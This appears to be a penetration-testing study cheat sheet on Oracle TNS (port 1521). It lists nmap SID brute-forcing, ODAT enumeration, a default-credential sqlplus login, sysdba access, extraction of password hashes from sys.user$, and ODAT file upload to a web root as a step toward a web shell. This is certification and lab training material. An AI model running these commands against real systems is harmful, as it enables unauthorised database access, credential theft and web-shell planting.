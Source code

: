 ```yaml
---
tags:

- cpts
- cybersecurity
- info gathering
---
```


# Cheat Sheet

```shell-session
# Default TCP listening on port 1521

# Default files tnsnames.ora and listener.ora location
$ORACLE_HOME/network/admin

# Default files are in PLAIN TEXT

# Nmap scan 
sudo nmap -p1521 -sV {target ip} --open

# Nmap SID Bruteforce
sudo nmap -p1521 -sV {target ip} --open --script oracle-sid-brute

# After setting up ODAT
# Testing ODAT
python3 ./odat.py -h

# Enumerate using ODAT
./odat.py all -s {target ip}


# SQLplus - Log in
sqlplus scott/tiger@10.129.204.235/XE

# Check tables
select table_name from all_tables;

# Check privileges
select * from user_role_privs;

# Connect as sysadmin
sqlplus username/password@{target ip}/XE as sysdba

# Extract Password Hashes
select name, password from sys.user$;

# File Upload web shell to target
# Needs the server to be running a web server and we need to know the exact location of the root dir

# Linux file path 
/var/www/html

# Windows file path
C:\inetpub\wwwroot

# Create text file and upload to the target system
# echo "Oracle File Upload Test" > testing.txt
# ./odat.py utlfile -s {target ip} -d XE -U username -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
